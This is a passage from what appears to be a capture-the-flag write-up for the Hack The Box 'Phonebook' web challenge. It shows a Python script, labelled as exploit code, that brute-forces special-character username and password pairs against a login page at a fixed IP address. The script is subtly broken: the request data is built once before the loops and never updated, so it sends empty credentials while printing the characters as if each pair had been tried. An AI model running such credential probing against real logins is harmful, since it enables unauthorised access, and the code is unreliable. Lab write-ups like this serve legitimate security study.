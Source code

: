 I found out that there are lots of credentials that provides `500` status code.
So, I modified the script to output only  `200` status code.

![special_chr_status_200](/assets/htb/challenge/web/phonebook/img/special_chr_status_200.png)

The special character exploit code is:

```python
# Arijit-Bhowmick [sys41x4]

import requests

url = "http://206.189.121.131:30184/login"

user_name, passwd =  "", ""

data = {"username":user_name, "password":passwd}

#special_characters = (32–47 / 58–64 / 91–96 / 123–126)

char = ''

chr_num_dict= {32:47, 58:64, 91:96, 123:126}

for start in chr_num_dict.keys():
	for j in range(start, chr_num_dict[start]+1):
		char+=chr(j)

for uname_chr in char:
	
	user_name = uname_chr

	for passwd_chr in char:
		
		passwd = passwd_chr

		r = requests.post(url, data=data)

		if (r.status_code != 500) and ("Please login" not in r.text):

			print(f"STATUS_CODE = {r.status_code}   ||  USERNAME = {user_name} | PASSWORD = {passwd}")
			
		elif (r.status_code != 404) or ("Please login" in r.text):
			
			#print(f"TEST >>> STATUS_CODE = {r.status_code}   ||  USERNAME = {user_name} | PASSWORD = {passwd}") # For testing purpose
			continue
```
